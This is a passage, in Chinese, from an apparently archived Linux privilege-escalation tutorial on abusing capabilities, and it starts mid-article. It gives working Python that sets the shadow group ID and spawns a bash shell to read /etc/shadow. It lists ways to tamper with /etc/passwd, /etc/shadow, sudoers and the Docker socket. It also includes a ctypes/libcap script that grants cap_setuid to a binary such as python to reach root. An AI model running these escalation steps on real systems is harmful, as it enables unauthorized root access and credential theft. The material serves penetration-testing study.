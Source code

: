 找到一个文件，就可以滥用（通过读或写）升级权限，得到一个shell。

```
import os  
os.setgid(42)  
os.system("/bin/bash")
```

shadow的组id为42，可以通过python创建一个shell。

![](https://github.com/D0n9/paper_archive/blob/main/paper/picture/2023/1/f3177e28-a142-4642-a511-5dc0e1cbd96f.png?raw=true)

  

创建的进程被设置组id为shadow，可以`cat /etc/shadow` 。

![](https://github.com/D0n9/paper_archive/blob/main/paper/picture/2023/1/154bae14-39b3-47d9-b27b-19ff7aa346c5.png?raw=true)

  

主要可以进行如下操作：

*   • 将用户和密码添加到/etc/passwd。
    
*   • 在/etc/shadow中更改密码。
    
*   • 在/etc/sudoers中将用户添加到sudoers。
    
*   • 通过docker套接字通信利用docker，一般在`/run/docker.sock`或`/var/run/docker.sock` 。
    

CAP_SETFCAP
-----------

**CAP_SETFCAP：** 可以给文件和进程设置能力。 

**当文件具有能力：**  当python具有该能力可以通过脚本提权到root`python3.8 setfcap.py /usr/bin/python3.8` 。

```
import ctypes, sys

#Load needed library  
#You can find which library you need to load checking the libraries of local setcap binary  
# ldd /sbin/setcap  
libcap = ctypes.cdll.LoadLibrary("libcap.so.2")

libcap.cap_from_text.argtypes = [ctypes.c_char_p]  
libcap.cap_from_text.restype = ctypes.c_void_p  
libcap.cap_set_file.argtypes = [ctypes.c_char_p,ctypes.c_void_p]

#Give setuid cap to the binary  
cap = 'cap_setuid+ep'  
path = sys.argv[1]  
print(path)  
cap_t = libcap.cap_from_text(cap)  
status = libcap.cap_set_file(path,cap_t)

if(status == 0):  
    print (cap + " was successfully added to " + path)


```
